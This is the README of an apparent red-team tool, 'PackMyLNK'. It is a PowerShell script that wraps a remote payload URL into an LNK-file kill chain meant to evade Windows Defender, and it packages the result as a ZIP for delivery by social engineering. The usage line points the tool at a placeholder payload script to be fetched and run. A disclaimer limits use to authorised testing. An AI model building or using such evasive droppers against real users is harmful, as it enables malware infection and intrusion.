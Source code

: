 # PackMyLNK

This script takes a URL as input and embeds it into a classic kill chain using LNK files. I designed it with the specific intent of avoiding detection by Windows Defender. It generates a final ZIP file, ready to be delivered to the target using Social Engineering techniques.

## Usage
`.\PackMyLNK.ps1 -Url http://example.com/payload-to-execute.ps1`

___

#### DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage.

